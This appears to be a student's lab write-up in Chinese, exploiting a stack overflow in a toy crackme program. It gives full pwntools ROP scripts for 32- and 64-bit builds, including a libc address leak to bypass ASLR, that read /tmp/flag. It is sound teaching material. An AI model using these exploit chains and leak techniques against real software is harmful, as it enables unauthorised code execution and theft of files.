# HomeWork1 

# 0. 溢出点

stack.c

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <dlfcn.h>

void start() {
  printf("IOLI Crackme Level 0x00\n");
  printf("Password:");

  char buf[64];
  memset(buf, 0, sizeof(buf));
  read(0, buf, 256);

  if (!strcmp(buf, "250382"))
    printf("Password OK :)\n");
  else
    printf("Invalid Password!\n");
}

int main(int argc, char *argv[]) {

  setreuid(geteuid(), geteuid());
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF,0);

  start();

  return 0;
}
```

在start函数里，存在函数read(0, buf, 256)，读入256字节长度的数据。

而buf变量的长度为64存在栈溢出风险。

## 0.1 32位

编译源代码，关闭栈保护、关闭NX、关闭 pie、 开启32位选项

`$ gcc stack.c -o a32.out -fno-stack-protector -z execstack -no-pie -m32`

关闭ASLR

`$ sudo sysctl -w kernel.randomize_va_space=0`

使用gdb分析

`cyclic 80`生成80字节长度字符串



填入程序输入



程序发生崩溃，查看此时EIP为taaa



查看taaa在随机字符串的位置



溢出点长度为76

## 0.2 64位

编译源代码，关闭栈保护、关闭NX、关闭 pie。

`$ gcc stack.c -o a64.out -fno-stack-protector -z execstack -no-pie`

关闭ASLR

`$ sudo sysctl -w kernel.randomize_va_space=0`

使用gdb分析

`cyclic 80`生成80字节长度字符串


填入程序输入



程序发生崩溃，查看此时RIP为



程序已崩溃，卡在ret处，查看rsp的值为jaaaaaaa



查看jaaaaaaa在随机字符串的位置



溢出点长度为72。

# 1. 32位程序

## 1.1 不开启ASLR

### 1.1.1 信息收集

32位程序函数调用使用栈传参，依次将函数的参数从右边往左push进栈内。

如：

```test(a, b, c)```

栈内数据从高到低位参数c, 参数b，参数a, 返回地址，旧的ebp

因此payload应为函数地址 + PPPR + 参数a + 参数b + 参数c

libc的基地址：0xf7c00000


可写入数据的地址writable_addr：选择0x804c700


libc内PPR偏移地址：0x3958a


libc内PPPR偏移地址：0x4cab8



从标准输入中读入/tmp/flag字符串，写入writable_addr内

### 1.1.2 payload构造

1. 长度为76的填充字符
2. 调用read(0, writable_addr, len("/tmp/flag"))
   1. read函数地址
   2. PPPR
   3. 0
   4. writable_addr
   5. len("/tmp/flag")
3. 调用open("/tmp/flag", 0)
   1. open函数地址
   2. PPR
   3. writable_addr
   4. 0
4. 调用read(3, writable_addr, 10)
   1. read函数地址
   2. PPPR
   3. 3
   4. writable_addr
   5. 10
5. 调用write(1, writable_addr, 10)
   1. write函数地址
   2. PPPR
   3. 1
   4. writable_addr
   5. 10

**最后从标准输入中写入/tmp/flag字符串**

### 1.1.3 完整代码

pwn32.py

```python
from pwn import *
io = process('./a32.out')

elf = ELF('./a32.out')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

# libc base address
base_addr = 0xf7c00000 	# varies in different libc and ubuntu version
# PPR and PPPR
PPR = base_addr + 0x3958a
PPPR = base_addr + 0x4cab8
# write the flag to the writable_addr
writable_addr = 0x804c700
# payload
payload = cyclic(76) 
# read the "/tmp/flag" into the writable_addr
# read(0, writable_addr, len("/tmp/flag"))
payload += p32(base_addr + libc.symbols['read'])
payload += p32(PPPR)
payload += p32(0)
payload += p32(writable_addr)
payload += p32(len("/tmp/flag"))
# open the /tmp/flag
# open("/tmp/flag", 0)
payload += p32(base_addr + libc.symbols['open'])
payload += p32(PPR)
payload += p32(writable_addr)
payload += p32(0)
# read the flag
# read(3, writable_addr, 10)
payload += p32(base_addr + libc.symbols['read'])
payload += p32(PPPR)
payload += p32(3)
payload += p32(writable_addr)
payload += p32(10)
# write the flag
# write(1, writable_addr, 10)
payload += p32(base_addr + libc.symbols['write'])
payload += p32(PPPR)
payload += p32(1)
payload += p32(writable_addr)
payload += p32(10)


# gdb.attach(io, "b *(start+163)") # we can raise a debug interface here
io.sendafter(b'Password:', payload)
io.sendline(b'/tmp/flag')
io.interactive()
```

### 1.1.4 实验结果



成功输出/tmp/flag内容: U202012043

## 1.2 开启ASLR

### 1.2.1 信息收集

获取主程序文件内的PR地址（由于主程序不存在随机化地址）

PR地址：0x0804901e



可写入数据的地址writable_addr：选择0x804c700


libc内PPR偏移地址：0x3958a


libc内PPPR偏移地址：0x4cab8


从标准输入中读入/tmp/flag字符串，写入writable_addr内

### 1.2.2 payload构造

1. 通过调用puts函数，输出puts函数的地址，计算libc的基地址
2. 调用read(0, writable_addr, len("/tmp/flag"))
3. 调用open("/tmp/flag", 0)
4. 调用read(3, writable_addr, 10)
5. 调用write(1, writable_addr, 10)

**最后从标准输入中写入/tmp/flag字符串**

### 1.2.3 完整代码

pwn32_ASLR.py

```python
from pwn import *
# 
io = process('./a32.out')
elf = ELF('./a32.out')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

# PR in elf
PR = 0x0804901e
# relative address of libc
PPR = 0x3958a
PPPR = 0x4cab8
writable_addr = 0x804c700
# debug
# gdb.attach(io, "b *(start+163)") # we can raise a debug interface here
# 1: get the address of puts and calculate the base address of libc
payload = cyclic(76) 
payload += p32(elf.plt['puts'])
payload += p32(PR)
payload += p32(elf.got['puts'])
payload += p32(elf.symbols['start'])
io.sendlineafter(b'Password:', payload)
io.recvuntil(b'Password!\n')
puts_addr = u32(io.recv(4))
base_addr = puts_addr - libc.symbols['puts']
# print('puts_addr = ', hex(puts_addr))
# print('base_addr = ', hex(base_addr))
# 2: get the flag
payload = cyclic(76) 
# read the "/tmp/flag" into the writable_addr
# read(0, writable_addr, len("/tmp/flag"))
payload += p32(base_addr + libc.symbols['read'])
payload += p32(base_addr + PPPR)
payload += p32(0)
payload += p32(writable_addr)
payload += p32(len("/tmp/flag"))
# open the /tmp/flag
# open("/tmp/flag", 0)
payload += p32(base_addr + libc.symbols['open'])
payload += p32(base_addr + PPR)
payload += p32(writable_addr)
payload += p32(0)
# read the flag
# read(3, writable_addr, 10)
payload += p32(base_addr + libc.symbols['read'])
payload += p32(base_addr +PPPR)
payload += p32(3)
payload += p32(writable_addr)
payload += p32(10)
# write the flag
# write(1, writable_addr, 10)
payload += p32(base_addr + libc.symbols['write'])
payload += p32(base_addr + PPPR)
payload += p32(1)
payload += p32(writable_addr)
payload += p32(10)
io.sendlineafter(b'Password:', payload)
io.sendlineafter(b'!', b'/tmp/flag')
io.interactive()
```

### 1.2.4 实验结果


成功输出/tmp/flag内容: U202012043

# 2. 64位

## 2.1 不开启ASLR

### 2.1.1 信息收集

64位程序使用寄存器传参数，参数从左到右使用rdi-rsi-rdx-rcx-r8-r9

如：

```test(a, b, c)```

函数调用过程mov rdi, [a] ; mov rsi, [b]; mov [rdx], [c].

构造payload应为poprdi_ret + a  + poprsi_ret + b + poprdx_ret + c + 函数地址。

libc基地址为0x7ffff7dcb000


可写入数据地址0x404700


libc内poprdi_ret的偏移地址为0x27725


libc内poprsi_ret的偏移地址为0x28ed9



libc内poprdx_ret的偏移地址为0xfdd4d



从标准输入中读入/tmp/flag字符串，写入writable_addr内

### 2.1.2 payload构造

1. fileName + 长度为(72 - len(fileName))的填充字符
2. 调用open("/tmp/flag", 0)
   1. poprdi_ret
   2. string_addr
   3. poprsi_ret
   4. 0
   5. open函数地址
3. 调用read(3, writable_addr, 10)
   1. poprdi_ret
   2. 3
   3. poprsi_ret
   4. writable_addr
   5. poprdx_ret
   6. 10
   7. read函数地址
4. 调用write(1, writable_addr, 10)
   1. poprdi_ret
   2. 1
   3. poprsi_ret
   4. writable_addr
   5. poprdx_ret
   6. 10
   7. write函数地址

**最后从标准输入中写入/tmp/flag字符串**

### 2.1.3 完整代码

pwn64.py

```python
from pwn import *
io = process('./a64.out')

elf = ELF('./a64.out')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# libc"s base_addr
base_addr = 0x7ffff7dcb000	
# func : rdi-rsi-rdx-rcx-r8-r9
poprdi_ret = base_addr + 0x27725
poprsi_ret = base_addr + 0x28ed9
poprdx_ret = base_addr + 0xfdd4d
# # write the flag to the writable_addr
writable_addr = 0x404700
# string_addr = "/tmp/flag"s
string_addr = 0x7fffffffde00
# fileName
fileName = b'/tmp/flag\0' 
payload = fileName + cyclic(72 - len(fileName))
# open the /tmp/flag
# open("/tmp/flag", 0)
# rdi = string_addr rsi = 0
payload += p64(poprdi_ret)
payload += p64(string_addr)
payload += p64(poprsi_ret)
payload += p64(0)
payload += p64(base_addr + libc.symbols['open'])
# read the flag
# read(3, writable_addr, 10)
# rdi = 3 rsi = writable_addr rdx = 10
payload += p64(poprdi_ret)
payload += p64(3)
payload += p64(poprsi_ret)
payload += p64(writable_addr)
payload += p64(poprdx_ret)
payload += p64(10)
payload += p64(base_addr + libc.symbols['read'])
# write the flag
# write(1, writable_addr, 10)
# rdi = 1 rsi = writable_addr rdx = 10
payload += p64(poprdi_ret)
payload += p64(1)
payload += p64(poprsi_ret)
payload += p64(writable_addr)
payload += p64(poprdx_ret)
payload += p64(10)
payload += p64(base_addr + libc.symbols['write'])

# gdb.attach(io, "b *(start+146)") # we can raise a debug interface here
io.sendafter(b'Password:', payload)
io.interactive()

```

### 2.1.4 实验结果



成功输出/tmp/flag内容: U202012043

## 2.2 开启ASLR

TODO: 获取poprsi_ret地址